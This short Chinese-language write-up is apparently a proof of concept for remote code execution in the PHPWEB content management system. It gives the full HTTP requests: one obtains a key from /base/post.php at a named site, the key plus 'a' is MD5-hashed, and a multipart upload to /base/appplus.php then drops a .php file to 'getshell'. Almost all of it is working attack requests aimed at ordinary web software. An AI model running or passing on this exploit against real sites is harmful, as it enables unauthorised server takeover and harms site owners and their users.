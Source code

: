 # PHPWEB RCE

#### 1.首先，先post发包获取值

POST /base/post.php HTTP/1.1
Host: www.sdyycm.com
User-Agent: Mozilla/5.0 (Windows NT 6.2; WOW64; rv:18.0) Gecko/20100101 Firefox/18.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-cn,zh;q=0.8,en-us;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

act=appcode

#### 2.获取    `k=504871bc9e70a836ae5ee70e69bde615&t=1578585276`  k的值

>    然后md5加密32位k的值+a  `504871bc9e70a836ae5ee70e69bde615a(504871bc9e70a836ae5ee70e69bde615+a` 加密之后的值为  `d950d53f648925e1c5ce8dc8bd6e8181`之后post包getshell ,post包m字段内容就是这个md5加密之后的值

### poc

```
POST /base/appplus.php HTTP/1.1
Host: www.xx.com
Content-Length: 711
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary92Ek3CIGduLPoRLt
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3314.0 Safari/537.36 SE 2.X MetaSr 1.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundary92Ek3CIGduLPoRLt
Content-Disposition: form-data; name="file"; filename="123.php"
Content-Type: application/octet-stream

asdasda
------WebKitFormBoundary92Ek3CIGduLPoRLt
Content-Disposition: form-data; name="t"

a
------WebKitFormBoundary92Ek3CIGduLPoRLt
Content-Disposition: form-data; name="m"

d950d53f648925e1c5ce8dc8bd6e8181
------WebKitFormBoundary92Ek3CIGduLPoRLt
Content-Disposition: form-data; name="act"

upload
------WebKitFormBoundary92Ek3CIGduLPoRLt
Content-Disposition: form-data; name="r_size"

7
------WebKitFormBoundary92Ek3CIGduLPoRLt
Content-Disposition: form-data; name="submit"

getsell
------WebKitFormBoundary92Ek3CIGduLPoRLt--
```
